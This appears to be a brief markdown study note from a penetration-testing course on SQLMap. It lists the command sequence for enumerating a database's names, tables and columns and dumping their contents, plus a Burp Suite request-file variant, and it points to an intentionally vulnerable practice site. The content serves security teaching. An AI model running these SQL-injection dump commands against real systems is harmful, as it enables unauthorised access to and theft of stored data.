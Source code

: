 # 16_Control Database Server with SQLMap

[Control Database Server with SQLMap 👉VIDEO &#128279;](https://codered.eccouncil.org/courseVideo/Kali-for-Penetration-Testers?lessonId=bdae6757-76a7-4def-a679-0edb37ff7a19&finalAssessment=false)

**Command**

- `php?id=1`
  - sqlmap -u <url> --dbs
  - sqlmap -u <url> -D <databas_name> --tables
  - sqlmap -u <url> -D <databas_name> -T <table_name> --columns
  - sqlmap -u <url> -D <databas_name> -T <table_name> -C <columns_name> --dump

**Test Website**

[Testphp wesite &#128279;](testphp.vulnweb.com/index.php)

**BURP SUITE**

- Kali Machine
  - sqlmap -r <filename.txt>

